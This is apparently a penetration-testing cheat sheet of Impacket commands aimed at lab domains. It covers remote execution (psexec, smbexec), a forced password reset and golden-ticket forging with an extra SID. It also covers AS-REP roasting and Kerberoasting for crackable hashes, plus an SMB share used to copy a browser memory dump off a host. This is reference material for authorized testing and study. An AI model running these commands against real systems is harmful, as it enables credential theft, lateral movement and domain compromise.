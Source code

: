 https://github.com/fortra/impacket/releases

### MSSQLClient
```bash
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth #To login
```
### Impacket - PSExec
```bash
psexec.py 'user:pass@ipaddr'

psexec.py -dc-ip infiltrator.htb -target-ip infiltrator.htb -no-pass -k infiltrator.htb/E.RODRIGUEZ@infiltrator.htb
```

### Impacket - Changepasswd
```
changepasswd.py 'scepter.htb'/'a.carter'@10.129.234.143 -reset -altuser 'd.baker' -althash :'hash'
```
### Impacket - SMBServer
```bash
smbserver.py -smb2support -username guest -password guest share ./

# Windows Connection
net use x: \\10.10.14.165\share /user:guest guest

# Copy Files
cmd /c "copy firefox.dmp X:\"
```
### Impacket - SMBExec
```bash
impacket-smbexec -k -no-pass -dc-ip 10.10.11.24 CORP.GHOST.HTB/administrator@dc01.ghost.htb
```
### Impacket - TicketConvertor
```bash
ticketConverter.py /PATH/ticket.kirbi ticket.ccache

export KRB5CCNAME=/PATH/ticket.ccache
```
### Impacket - Ticketer
```bash
impacket-ticketer -aesKey b0eb79f35055af9d61bcbbe8ccae81d98cf63215045f7216ffd1f8e009a75e8d -domain-sid S-1-5-21-2034262909-2733679486-179904498 -extra-sid S-1-5-21-4084500788-938703357-3654145966-519 -domain corp.ghost.htb administrator
```
### Impacket - Samrdump.py
```bash
samrdump.py 10.129.14.128
```

### Impacket - GetTGT.py
```
getTGT.py -dc-ip dc01.infiltrator.htb infiltrator.htb/D.anderson
```
### Impacket - GetNPUsers.py
[GetNPUsers.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) can be used to retrieve domain users who have "Do not require Kerberos preauthentication" set and ask for their TGTs without knowing their passwords. It is then possible to attempt to crack the session key sent along the ticket to retrieve the user password. This attack is known as [ASREProast](https://www.thehacker.recipes/ad/movement/kerberos/asreproast).
```
# users list dynamically queried with an RPC null session
GetNPUsers.py -dc-ip dc01.infiltrator.htb -usersfile users.txt infiltrator.htb/

GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/'

# with a users file
GetNPUsers.py -usersfile users.txt -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/'

# users list dynamically queried with a LDAP authenticated bind (password)
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/USER:Password'

# users list dynamically queried with a LDAP authenticated bind (NT hash)
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -hashes 'LMhash:NThash' -dc-ip $KeyDistributionCenter 'DOMAIN/USER'
```

### Impacket - GetUserSPNs
[GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) can be used to obtain a password hash for user accounts that have an SPN (service principal name). If an SPN is set on a user account it is possible to request a Service Ticket for this account and attempt to crack it in order to retrieve the user password. This attack is named [Kerberoast](https://www.thehacker.recipes/ad/movement/kerberos/kerberoast). This script can also be used for [Kerberoast without preauthentication](https://www.thehacker.recipes/ad/movement/kerberos/kerberoast#kerberoast-w-o-pre-authentication).
```
# with a password
GetUserSPNs.py -outputfile kerberoastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/USER:Password'

# with an NT hash
GetUserSPNs.py -outputfile kerberoastables.txt -hashes 'LMhash:NThash' -dc-ip $KeyDistributionCenter 'DOMAIN/USER'

# Kerberoast without preauthentication
GetUserSPNs.py -no-preauth "bobby" -usersfile "services.txt" -dc-host "DC_IP_or_HOST" "DOMAIN.LOCAL"/
```